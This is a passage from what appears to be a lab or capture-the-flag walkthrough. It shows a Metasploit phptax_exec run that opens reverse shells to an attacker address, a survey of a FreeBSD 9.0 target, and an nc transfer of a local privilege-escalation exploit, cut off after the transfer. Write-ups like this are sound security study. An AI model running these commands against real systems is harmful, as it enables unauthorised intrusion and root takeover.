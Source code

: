       
    msf exploit(phptax_exec) > **set RHOST 192.168.1.68**  
    RHOST => 192.168.1.68  
      
    msf exploit(phptax_exec) > **set RPORT 8080**  
    RPORT => 8080  
      
    msf exploit(phptax_exec) > **run**  
      
    [*] Started reverse TCP double handler on 192.168.1.67:4444   
    [*] 192.168.1.688080 - Sending request...  
    [*] Accepted the first client connection...  
    [*] Accepted the second client connection...  
    [*] Accepted the first client connection...  
    [*] Accepted the second client connection...  
    [*] Command: echo V5HLbXsCcLqrTr6R;  
    [*] Writing to socket A  
    [*] Writing to socket B  
    [*] Reading from sockets...  
    [*] Command: echo dcW9zf08z50hnZcW;  
    [*] Writing to socket A  
    [*] Writing to socket B  
    [*] Reading from sockets...  
    [*] Reading from socket B  
    [*] B: "V5HLbXsCcLqrTr6R\r\n"  
    [*] Matching...  
    [*] A is input...  
    [*] Reading from socket B  
    [*] B: "dcW9zf08z50hnZcW\r\n"  
    [*] Matching...  
    [*] A is input...  
    [*] Command shell session 1 opened (192.168.1.67:4444 -> 192.168.1.68:20092) at 2017-01-07 16:39:33 -0500  
    [*] Command shell session 2 opened (192.168.1.67:4444 -> 192.168.1.68:40864) at 2017-01-07 16:39:33 -0500  
      
    whoami  
    www  
    

  
I won't go through all my attempts since they were many, I'm listing the
important ones findings though:  

  * It's running FreeBSD 9.0 
  * No users in /home
  * System doesn't have python, bash, wget and many other stuff, it does have perl and gcc though

Easily enough, searching for an exploit for FreeBSD 9.0 was [straight-
forward](https://www.exploit-db.com/exploits/28718/). I transferred the
exploit file through nc, compiled it and got root.  
  

    
    
    which gcc  
    /usr/bin/gcc  
    cd /tmp  
    wget https://www.exploit-db.com/download/28718  
    wget: not found  
    which nc  
    /usr/bin/nc  
    nc -nv 192.168.1.67 443 -w 5 > exploit.c  
    Connection to 192.168.1.67 443 port [tcp/*] succeeded!  
      